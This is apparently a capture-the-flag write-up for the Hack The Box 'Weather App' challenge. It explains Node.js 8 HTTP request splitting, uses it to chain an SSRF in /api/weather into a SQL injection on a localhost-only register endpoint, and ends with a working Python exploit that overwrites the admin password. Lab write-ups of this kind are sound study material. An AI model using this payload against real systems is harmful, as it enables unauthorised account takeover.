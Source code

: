 # [Weather App](https://app.hackthebox.com/challenges/Weather%20App)

## Vulnerabilities

request splitting vulnerability in nodejs 8

## CHALLENGE DESCRIPTION

A pit of eternal darkness, a mindless journey of abeyance, this feels like a never-ending dream. I think I'm hallucinating with the memories of my past life, it's a reflection of how thought I would have turned out if I had tried enough. A weatherman, I said! Someone my community would look up to, someone who is to be respected. I guess this is my way of telling you that I've been waiting for someone to come and save me. This weather application is notorious for trapping the souls of ambitious weathermen like me. Please defeat the evil bruxa that's operating this website and set me free! 🧙‍♀️

## Analysis

read source code:

- Nodejs, express framework: [good express framework tutorial](https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction)
- Sqlitedb

Symmary:

- if we can log in with admin account, we can get the flag. The admin account is initialized with a random password.
- register function has sqli vulnerability but requires client address is 127.0.0.1 otherwise 401
- `/api/weather` has ssrf vulnerability

**Detected SQLi:**
While reading the source code I found a strange line, the register query is not using prepare function like below SQL function:

![detect-sqli.png](./img/challenge-3-detect-sqli.png)

![localhost-required.png](./img/challenge-3-localhost-required.png)
However, the client's ip address needs to be 127.0.0.1 to be allowed to use the registration function, tried fake with `X-Forwarded-For` and `X-Custom-IP-Authorization`, both failed.

**Detected ssrf in `/api/weather`:**
![detect-ssrf-1.png](./img/challenge-3-detect-ssrf-1.png)
![detect-ssrf-2.png](./img/challenge-3-detect-ssrf-2.png)
![detect-ssrf-3.png](./img/challenge-3-detect-ssrf-3.png)

The idea is to use the ssrf vulnerability at the `/api/weather` endpoint to the `register` endpoint to bypass 127.0.0.1. But the `/api/weather` endpoint only makes get requests, so it doesn't work.

## Request splitting

At the nodejs version 8, there is a vulnerability called request-splitting.

This vulnerability allows the hacker to append another HTTP request after the base one.

Example:

```url
http.get('http://127.0.0.1:8000/?param=x\u{0120}HTTP/1.1\u{010D}\u{010A}Host:{\u0120}127.0.0.1:8000\u{010D}\u{010A}\u{010D}\u{010A}GET\u{0120}/private')
```

in nodejs, it see this:

```url
http.get('http://127.0.0.1:8000/?param=xĠHTTP/1.1čĊHost:{Ġ}127.0.0.1:8000čĊčĊGETĠ/private')
```

but before this request is put in the wire, everything is encoded with latin1. the problem here is that `\u{010D}` is become to `\u{0D}`, which is the `\r` character, a special charracter in HTTP.

```js
> Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'
```

|||
|--|--|
|%20|space|
|%0D|\r|
|%0A|\n|

## Solutions

python code to send `request splitting` request:

```python
import requests

s = '\u0120' #space
r = '\u010D' #\r
n = '\u010A' #\n
rn = r + n

host = 'http://165.22.115.189:31711'

i_username = 'admin'
i_password = "test') ON CONFLICT(username) DO UPDATE SET password = 'test';--"
i_password = i_password.replace(' ', '%20').replace('\'', '%27') #(1)
len_body = 19 + len(i_username) + len(i_password)

fake_endpoint = "127.0.0.1/" + s + 'HTTP/1.1' + rn #(2)
fake_endpoint += rn
fake_endpoint += 'POST' + s + '/register' + s + 'HTTP/1.1' + rn
fake_endpoint += 'Host:' + s + '127.0.0.1' + rn
fake_endpoint += 'Content-Type:' + s + 'application/x-www-form-urlencoded' + rn
fake_endpoint += 'Content-Length:' + s + str(len_body) + rn
fake_endpoint += rn
fake_endpoint += 'username=' + i_username + '&password=' + i_password + rn
fake_endpoint += rn
fake_endpoint += 'GET' + s

resp = requests.post(host + '/api/weather', json={"endpoint":fake_endpoint,"city":"Hanoi","country":"VN"})
```

note:

- (1): must replace space to `%20` or `\u0120`, replace `'` to `%27` or `\u0127`
- (2): must have `/` after 127.0.0.1

## References

<https://twitter.com/YShahinzadeh/status/1039396394195451904/photo/1>
<https://hackerone.com/reports/409943>
<https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/>

writeup: <https://infosec.itsmeuday.com/blog/htb_weather_app>

learn:

- <https://developer.mozilla.org/en-US/docs/Learn/Server-side/Express_Nodejs/Introduction>
